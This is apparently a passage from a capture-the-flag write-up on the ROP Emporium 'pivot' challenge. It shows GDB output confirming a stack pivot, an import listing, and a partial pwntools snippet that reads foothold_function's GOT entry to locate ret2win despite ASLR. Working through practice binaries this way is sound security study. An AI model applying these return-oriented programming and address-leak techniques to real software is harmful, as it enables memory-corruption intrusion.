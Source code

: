 Running `./win.py GDB` and typing `continue` all the way in GDB, then type `info registers`, we get this:

```
...
r15            0x6262626261616161  7089336938114670945
...
```

The `0x6262626261616161` there is actually `"aaaabbbb"` in disguise, which shows that our stack pivot worked!

## Finding ret2win

Now that we have a full fat 256 bytes of space to work with, we can lay down the groundwork to call the `ret2win` function.

The only problem is that the `ret2win()` is never explicitly imported by `pivot` from `libpivot.so`.

```
$ rabin2 -i ./pivot
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       free
2   0x004006e0 GLOBAL FUNC       puts
3   0x004006f0 GLOBAL FUNC       printf
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00000000 WEAK   NOTYPE     __gmon_start__
8   0x00400720 GLOBAL FUNC       foothold_function
9   0x00400730 GLOBAL FUNC       malloc
10  0x00400740 GLOBAL FUNC       setvbuf
11  0x00400750 GLOBAL FUNC       exit
```

Luckily for us, `pivot` does import another function from `libpivot.so`, namely `foothold_function()`, which we can use as a landmark to find `ret2win()`.

Since the difference (or offset) between the memory addresses of `foothold_function()` and `ret2win()` are always the same (even if ASLR is enabled), we simply have to calculate this offset and find where `foothold_function()` was loaded into memory to find where `ret2win()` is located.

### Finding the memory address of foothold_function

Since `foothold_function()` is an imported function, we know that we can find where it is loaded by checking the memory address stored in its GOT entry in `pivot`.

```python
from pwn import *
...
exe = context.binary = ELF('./pivot')
...
# this expression tells us where foothold_function's GOT entry is, but not the memory address
# stored inside the GOT entry that tells us where foothold_function was loaded into memory
exe.got["foothold_function"]
...
```
